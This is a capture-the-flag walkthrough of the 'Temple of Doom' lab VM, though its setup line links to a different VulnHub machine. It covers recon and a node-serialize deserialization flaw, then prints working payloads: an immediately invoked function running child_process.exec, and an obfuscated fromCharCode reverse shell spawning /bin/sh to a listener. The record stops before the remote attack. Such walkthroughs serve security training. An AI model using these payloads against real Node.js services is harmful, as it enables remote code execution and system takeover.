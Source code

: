 # Temple of Doom

* ### Setup

  Download the virtual machine <a href="https://www.vulnhub.com/entry/brainpan-1,51/">here</a> and import it in either VirtualBox or        VMWare.
  * **Addresses** - This will be important to understand the writeup.
    * My Kali machine: **10.0.2.15**
    * Temple of Doom machine: **10.0.2.14**
  

  
### Information Gathering
---

* Running **nmap** with `nmap -sC -sV -p- -A -oA templeofdoom 10.0.2.14` reveals **two** ports.
<!-- 1 -->  

1. **SSH** on default port **22** .
2. A <a href="https://en.wikipedia.org/wiki/Node.js">NodeJs</a> server running at port **666**.

Let's check the server at port **666**, while also setting **gobuster** and **nikto** running in the background.

<!-- 2 -->

We see an under construction message. After fuzzing the url a little bit and reloading the page a few times, the application errors out with 

<!-- 3 -->

This error tells us that something went wrong with the serialization process and we also notice the module doing the serialization is **node-serialize**.

* Unfortunately, this module contains a serious **deserialization vulnerability**, allowing **remote code execution**. There is a great analysis of such attacks in nodejs in this pdf https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf

### Vulnerability Analysis
---
* First we need to understand what a **deserialization vulnerablity** is. From <a href="https://www.acunetix.com/blog/articles/what-is-insecure-deserialization/">this article</a> by http://acunetix.com, 
> **_Insecure Deserialization_** is a vulnerability which occurs when untrusted data is used to abuse the logic of an application, inflict a denial of service (DoS) attack, or even execute arbitrary code upon it being deserialized. It also occupies the **#8 spot in the OWASP Top 10 2017 list.**
Serialization refers to a process of converting an object into a format which can be persisted to disk (for example saved to a file or a datastore), sent through streams (for example stdout), or sent over a network. JSON and XML are two of the most commonly used serialization formats within web applications.
Deserialization on the other hand, is the opposite of serialization, that is, transforming serialized data coming from a file, stream or network socket into an object.
Web applications make use of serialization and deserialization on a regular basis and most programming languages even provide native features to serialize data. **It’s important to understand that safe deserialization of objects is normal practice in software development. The trouble however, starts when deserializing untrusted user input.**

Based on the paper mentioned in the Information gathering section, we will create a test environment to confirm the vulnerablitiy.

**1.** First install **npm** with `apt install npm`, then the vulnerable **node-serialize** module with `npm install node-serialize`.  
  Note: npm will now warn you the node-serialize was found to contain a serious vulnerability.
  
**2.** Let's create a test object and then pass it to the **serialize** function.
  ```javascript
  var obj = {
rce : function(){
require('child_process').exec('id /', function(error,
stdout, stderr) { console.log(stdout) });
},
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(obj));
```
Saving the above code into a file called serialized.js and executing with `node serialized.js` outputs the serialized object
```javascript
{"rce":"_$$ND_FUNC$$_function(){\nrequire('child_process').exec('id', function(error,\nstdout, stderr) { console.log(stdout) });\n}"}
```
**3.** The main problem now is that even if this object is **unserialized**, nothing will execute unless the function with tag **"rce"** is called. Thankfully for us, Javascript contains a feature called **_Immediately invoked
function expression (IIFE)_** for calling the function. If we use IIFE bracket
() after the function body, the function **will get invoked when the object is
created.**
As such, our **new payload** is
```javascript
{"rce":"_$$ND_FUNC$$_function(){\nrequire('child_process').exec('id', function(error,\nstdout, stderr) { console.log(stdout) });\n}()"}
```
**Note the parentheses in the end.**

**4.** Create another script called **unserialize.js**, emulating the server behaviour with
```javascript
var serialize = require('node-serialize');
var payload = {"rce":"_$$ND_FUNC$$_function (){require(\'child_process\').exec(\'id \',function(error, stdout, stderr) { console.log(stdout)});}()"};
serialize.unserialize(payload);
```
and run it.

<!-- 4 -->

**We can clearly see our code got executed!**

**5.** For further testing, there is a very handy tool called <a href="https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py">nodejsshell.py</a>, that will help us create a **reverse shell** which will run in **node**.
For local testing purposes, run it with `python nodejsshell.py 127.0.0.1 1337` to create a payload that will send back a shell at localhost on port 1337. This is the outputted code:
```javascript
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

We must put this in our final payload called localtest.js
```javascript
var serialize = require('node-serialize');
var payload = {"rce":"_$$ND_FUNC$$_function (){ eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,50,55,46,48,46,48,46,49,34,59,10,80,79,82,84,61,34,49,51,51,55,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"};
serialize.unserialize(payload);
```
and run locally, while also listening on port **1337**.

<!-- 5 -->

**We have a shell!**. Now we have to do the same on the remote machine.

